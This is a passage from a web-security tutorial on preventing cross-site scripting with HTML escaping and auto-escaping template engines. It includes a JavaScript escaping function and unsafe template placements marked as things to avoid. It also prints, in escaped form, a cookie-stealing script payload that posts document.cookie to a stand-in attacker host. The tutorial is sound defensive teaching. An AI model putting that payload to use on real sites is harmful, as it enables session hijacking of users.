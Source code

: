 ```js
/**
 * Replace any characters that could be used to inject a malicious script in an HTML context.
 */
export function escapeHtmlText(value) {
  const stringValue = value.toString();
  const entityMap = {
    "&": "&amp;",
    "<": "&lt;",
    ">": "&gt;",
    '"': "&quot;",
    "'": "&#x27;",
    "/": "&#x2F;",
    "`": "&grave;",
    "=": "&#x3D;",
  };

  // Match any of the characters inside /[ ... ]/
  const regex = /[&<>"'`=/]/g;
  return stringValue.replace(regex, (match) => entityMap[match]);
}
```

This tiny JS function replaces `<` with `&lt;`, `"` with `&quot;`, and so on. These characters will still render
properly as `<` and `"` when they're used in the text, but can't be interpreted as code constructs. The previous
malicious bio will now be converted into the following HTML:

```html
<p>
  &lt;script&gt; fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, data: document.cookie }) &lt;/script&gt;
</p>
```

which displays harmlessly as text.

Fortunately, as established above, you don't have to do your escaping manually—I just wanted to demonstrate how simple
these concepts are. Every template engine has an auto-escaping feature, and you're going to want to use a template
engine anyway. Just make sure that escaping is enabled, and send all your HTML through it.

### Only serve user-generated content inside HTML tags

This is an addendum to the template engine rule, but it's important enough to call out on its own. Do not allow your
users to define arbitrary CSS or JS content, even with your auto-escaping template engine.

```html
<!-- Don't include inside script tags -->
<script>
  const userName = {{ user.name }}
</script>

<!-- Don't include inside CSS tags -->
<style>
  h1 { color: {{ user.favorite_color }} }
</style>
```
